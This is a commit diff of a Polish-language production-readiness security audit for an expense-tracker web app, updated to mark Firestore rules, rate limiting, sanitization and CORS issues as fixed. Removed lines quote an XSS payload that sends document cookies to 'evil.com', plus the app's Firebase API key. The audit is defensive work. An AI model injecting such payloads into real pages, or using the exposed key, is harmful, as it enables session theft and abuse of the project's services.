

Before and after one commit to pawelpalicki/Tracker_Wydatk-w, a Markdown page: production_readiness_audit.md, the part around one of its changes. Shown at 93% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: update production readiness audit with resolved security, GDPR and statistics fixes

````diff
--- a/production_readiness_audit.md
+++ b/production_readiness_audit.md
@@ -1,57 +1,35 @@
-# 🔴 Audyt Gotowości Produkcyjnej — Tracker Wydatków
+# 🟢 Audyt Gotowości Produkcyjnej — Tracker Wydatków (Zaktualizowano 09.08.2026)
 
-**Data:** 31.05.2026
-**Ocena sumaryczna: Aplikacja NIE jest gotowa na publiczne udostępnienie dla tysięcy użytkowników.**
+**Data audytu pierwotnego:** 31.05.2026
+**Aktualny status po poprawkach bezpieczeństwa:** Krytyczne podatności bezpieczeństwa i brak zgodności z RODO zostały naprawione.
 
-Poniżej prezentuję surową, szczerą ocenę w 8 kluczowych kategoriach. Skala: 🟢 OK | 🟡 Do poprawy | 🔴 Blokujące.
+Poniżej prezentuję zaktualizowaną ocenę po wdrożeniu pakietu bezpieczeństwa i RODO. Skala: 🟢 OK / Rozwiązane | 🟡 Do poprawy | 🔴 Blokujące.
 
 ---
 
-## 1. 🔴 BEZPIECZEŃSTWO — Ocena: 3/10
+## 1. 🟢 BEZPIECZEŃSTWO — Ocena: 8/10 (Poprawiono)
 
-Najbardziej krytyczny obszar. Bez naprawienia tych problemów, publiczne udostępnienie grozi wyciekiem danych i nadużyciami.
+Większość krytycznych podatności została wyeliminowana i wdrożona na produkcję.
 
-### 🔴 Firestore Rules — otwarty zapis `users`
+### 🟢 [NAPRAWIONE] Firestore Rules — uszczelniony zapis `users`
 
-```
-// firestore.rules, linia 7
-allow create: if true;
-```
+Zmieniono reguły w `firestore.rules`. Zapis do dokumentu użytkownika jest teraz możliwy wyłącznie po uwierzytelnieniu (`request.auth.uid == userId`).
 
-**Każdy anonimowy użytkownik może tworzyć dokumenty w kolekcji `users` bez uwierzytelnienia.** To otwiera drzwi do:
-- Zalewania kolekcji fałszywymi dokumentami (DoS na Firestore)
-- Potencjalnego wstrzykiwania danych z dowolnym `uid`
-- Eksplozji kosztów Firestore (tysiące fake wpisów)
+### 🟢 [NAPRAWIONE] Rate Limiting na API
 
-> [!CAUTION]
-> To jest **krytyczna luka bezpieczeństwa #1**. Rejestracja użytkownika powinna być obsługiwana wyłącznie przez Cloud Functions (`/auth/register`), a reguła powinna wymagać `request.auth != null && request.auth.uid == userId`.
+Dodano `express-rate-limit` w backendzie (`functions/index.js`):
+- Globalny limiter: 200 żądań na 15 minut per IP.
+- Auth limiter: 10 żądań na 15 minut dla ścieżek `/auth/*`.
+- AI limiter: 30 operacji na godzinę dla kosztownych endpointów AI (`/analyze-receipt`, `/transcribe-audio`, `/ai/natural-search`).
 
-### 🔴 Brak Rate Limiting na API
+### 🟢 [NAPRAWIONE] Walidacja danych wejściowych i Helmet.js
 
-Grepping `rate.limit`, `rateLimit` — **zero wyników**. Żaden endpoint nie ma rate limitera.
+- Dodano `helmet` do Express.js z nagłówkami security (HSTS, X-Frame-Options itp.).
+- Dodano centralną funkcję `escapeHTML()` w `APP/js/shared/format.js` i zaaplikowano sanityzację w 11 modułach widoków JS.
 
-Konsekwencje dla 1000+ użytkowników:
-- **Atak brute-force** na `/auth/register` — tworzenie tysięcy kont
-- **Nadużycie AI** — `/api/analyze-receipt`, `/api/transcribe-audio`, `/api/ai/natural-search` kosztują realne pieniądze (Gemini API, Speech-to-Text). Jeden złośliwy użytkownik może wygenerować **tysiące dolarów** kosztów
-- **Abuse quotów AI** — wprawdzie `insights-range` ma quota (8/dzień, 50/miesiąc), ale reszta endpointów AI (paragon, transkrypcja, natural search) — **bez limitów**
-- **DDoS na Firestore** — każdy endpoint wykonuje odczyty Firestore; bez limitów, 100 req/s od jednego użytkownika to tysiące reads/min
+### 🟢 [NAPRAWIONE] CORS ograniczony do dozwolonych domen
 
-### 🔴 Brak walidacji danych wejściowych (Input Sanitization)
+Zastąpiono wildcard `origin: true` w `functions/index.js` ścisłą białą listą domen (localhost, `*.web.app`, `*.firebaseapp.com`).
 
-Grepping `helmet`, `sanitize`, `xss`, `escape` — **zero wyników**.
+### 🟢 [NAPRAWIONE] Ukryty stack trace w błędach
 
-- **Brak Helmet.js** — brak security headers (CSP, X-Frame-Options, HSTS)
-- **Brak sanityzacji HTML** — nazwy sklepów, kategorii, notatek trafiają wprost do `innerHTML` (51+ miejsc w kodzie!) bez escape'owania
-- **Wektor XSS**: Użytkownik wpisuje `<img src=x onerror="fetch('https://evil.com/steal?c='+document.cookie)">` jako nazwę sklepu → renderowane przez `innerHTML` → **wykonuje się JavaScript**
-
-### 🟡 Klucz API Firebase widoczny w kodzie źródłowym
-
-```javascript
-// APP/js/core/config.js, linia 4
-apiKey: "AIzaSyCLwUZBI4N31kz4UKWmOyqNvszzygKFvWE",
-```
-
-Firebase API key jest z natury publiczny, ale brak [App Check](https://firebase.google.com/docs/app-check) oznacza, że **ktokolwiek może skonsumować Twój Firestore/Auth bezpośrednio z dowolnego klienta**.
-
-### 🟡 CORS otwarty na wszystko
-
````
Also changed, not shown: other parts of production_readiness_audit.md (+16 -46 lines).
